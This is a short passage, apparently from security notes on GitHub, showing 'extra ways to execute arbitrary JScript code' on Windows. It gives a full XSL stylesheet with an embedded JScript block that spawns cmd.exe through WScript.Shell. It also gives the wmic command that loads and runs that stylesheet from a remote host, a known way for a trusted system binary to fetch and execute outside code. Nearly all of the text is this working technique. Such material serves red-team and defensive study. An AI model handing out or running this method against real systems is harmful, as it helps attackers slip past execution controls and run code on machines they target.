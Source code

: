 **EXTRA WAYS TO EXECUTE ARBIRTRARY JSCRIPT CODE:**

Via XLS transform. Proof of concept to execute an additional cmd.exe:

Content of test.xls:

```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
  <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
      var r = new ActiveXObject("WScript.Shell");
      r.Run("cmd.exe");
    ] ]>
  </ms:script>
</stylesheet>
```

Then execute it with wmic.exe as follows:

```
C:\> wmic process get brief /format:"http://192.168.1.1/test.xsl"
```
